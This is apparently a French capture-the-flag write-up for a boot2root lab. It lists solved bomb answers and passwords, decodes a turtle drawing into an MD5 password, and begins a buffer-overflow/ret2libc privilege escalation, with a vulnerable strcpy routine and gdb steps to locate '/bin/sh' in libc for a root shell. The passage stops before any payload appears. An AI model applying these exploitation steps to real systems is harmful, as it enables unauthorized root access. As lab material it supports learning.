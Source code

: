 
### Results
```
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekMq
4 2 6 3 1 5
```
password : `Publicspeakingisveryeasy.126241207201b2149opekMq426315` \
Attention, il faut utiliser celui-ci (erreur sujet): `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

## Thor
On transforme le fichier `turtle` en script python et on obtient une tortue qui dessine les lettres  `S` `L` `A` `S` `H` \
A la fin du fichier on trouve : `can you diggest this message ?`, on comprend que nous devons crypter le message en md5.

password : `646da671ca01bb5d84dbb5fb2238dc8e`

## Zaz
Une fois log avec l'id de zaz on a un executable `exploit_me`, avec ghidra on sait que le code source de cet executable est sensiblement :
```
bool main(int param_1,int param_2)
{
	char local_90 [140];
	
	if (1 < param_1) {
		strcpy(local_90,*(char **)(param_2 + 4));
		puts(local_90);
	}
	return param_1 < 2;
}
```

On va donc faire un buffer overflow dans le but de lancer un shell en tant que root;
`gdb ./exploit_me`
Dans gdb on doit droiver l'addr de `/bin/sh`
```
(gdb) info proc map
	process 1921
	Mapped address spaces:

		Start Addr   End Addr       Size     Offset objfile
		0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
		0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
		0xb7e2b000 0xb7e2c000     0x1000        0x0 
		0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
		0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
		0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
		0xb7fd2000 0xb7fd5000     0x3000        0x0 
		0xb7fda000 0xb7fdd000     0x3000        0x0 
		0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
		0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
		0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
		0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
		0xbffdf000 0xc0000000    0x21000        0x0 [stack]

(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
	0xb7f8cc58
	1 pattern found.
```